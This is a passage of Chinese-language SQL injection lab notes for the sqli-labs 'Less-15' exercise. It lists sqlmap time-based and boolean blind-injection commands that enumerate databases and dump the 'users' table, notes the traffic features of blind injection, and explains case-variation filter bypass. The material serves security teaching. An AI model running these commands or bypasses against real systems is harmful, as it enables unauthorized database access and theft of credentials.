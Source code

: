 使用基于**时间**技术的 sqlmap 探测

```
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" -p uname --batch --technique T --dbs
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" -p uname --batch --technique T -D security --tables 
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" -p uname --batch --technique T -D security -T users --column
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" -p uname --batch --technique T -D security -T users --dump
```

类似可以使用**布尔**技术的 sqlmap 探测

```
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" --batch --technique B --dbs
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" --batch --technique B -D security --tables 
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" --batch --technique B -D security -T users --column
sqlmap -u http://192.168.70.14:8088/Less-15/ --data="uname=admin&passwd=admin" --batch --technique B -D security -T users --dump
```



### 三 sqlmap 盲注的流量特征

#### 1、手工盲注的流量特征类似 

- if 
- sleep 
- select 布尔表达式的判定 数据
- 库源信息的流量特征

#### 2、大量的同源注入请求 sqlmap 特征

## **Sql 注入的绕过原理**

### **1.**大小写绕过

如果程序中设置了过滤关键字，但是过滤过程中并没有对关键字组成进行深入分析过滤，导致只是对整体进行过滤。例如: and 过滤。当然这种过滤只是发现关键字出现，并不会对关键字处理。

通过修改**关键字内字母大小写**来绕过过滤措施。

例如:`AnD 1=1`

例如:在进行探测当前表的字段数时,使用 order by 数字进行探测。如果过滤了 `order` ，可以使用 `OrdER` 来进行绕过。

如果在程序中设置出现**关键字之后替换为空**，那么 SQL 注入攻击也不会发生。

对于这样的过滤策略可以

#### 实验：
